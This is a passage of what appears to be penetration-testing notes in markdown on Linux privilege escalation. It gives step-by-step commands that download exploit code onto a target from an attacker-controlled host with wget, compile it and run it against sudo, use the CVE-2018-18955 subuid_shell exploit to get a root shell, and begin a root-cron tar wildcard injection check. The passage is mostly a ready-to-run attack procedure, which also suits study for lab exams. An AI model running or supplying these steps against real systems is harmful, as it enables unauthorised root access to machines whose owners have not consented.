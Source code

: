 - [ ] Download on target
```
wget 192.168.45.169/compile.sh
wget 192.168.45.169/exploit-1.c
wget 192.168.45.169/exploit-2.c
```

- [ ] Compile
```
chmod +x compile.sh
./compile.sh
```

- [ ] Run exploit 1
```
./exploit-1
```

- [ ] Run exploit 2
```
./exploit-2 /usr/bin/sudo
```

## subuid_shell (CVE-2018-18955)

- [ ] Download binaries and serve
```
https://github.com/scheatkode/CVE-2018-18955/releases/tag/v0.0.1
python3 -m http.server 80
```
- I used [linux-x86_64.tar.gz](https://github.com/scheatkode/CVE-2018-18955/releases/download/v0.0.1/linux-x86_64.tar.gz)

- [ ] Transfer to Target Machine
```
wget 192.168.45.200/linux-x86_64.tar.gz
tar -xvf linux-x86_64.tar.gz
cd linux-x86_64/bin
```

- [ ] Use exploit
```
chmod 777 subuid_shell
./subuid_shell
```

## Unix Wildcard Injection
> Can be used if cronjob or binary is run by root

### Tar Wildcard Injection

- [ ] Check for tar wildcard cron job run as root on the Target Machine
```
ls -lah /etc/cron*
```
